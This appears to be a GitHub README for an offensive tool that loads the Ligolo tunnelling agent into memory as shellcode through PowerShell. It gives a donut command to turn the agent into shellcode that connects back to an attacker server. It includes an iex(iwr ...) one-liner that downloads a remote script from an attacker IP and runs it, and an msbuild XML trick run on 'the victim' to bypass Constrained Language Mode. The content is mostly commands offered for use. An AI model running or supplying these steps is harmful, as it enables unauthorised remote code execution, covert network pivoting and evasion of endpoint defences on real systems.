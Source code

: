 ## Powershell Shellcode Runner 

1. Make sure to convert `agent.exe` of Ligolo to shellcode:

- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

2. Make sure you are running as x64 bit process before running: 

- Powershell: `[Environment]::Is64BitProcess`
- CMD: `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

3. Inside `ligolo.ps1`, make sure to update line 14 (`$url = "http://192.168.45.168/agent.bin"`) to point to your machine IP address before invoking it.

4. make sure both `ligolo.ps1` and `agent.bin` in the same directory, then serve them by simply using python server.

5. Invoke the script:
- `iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)`

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
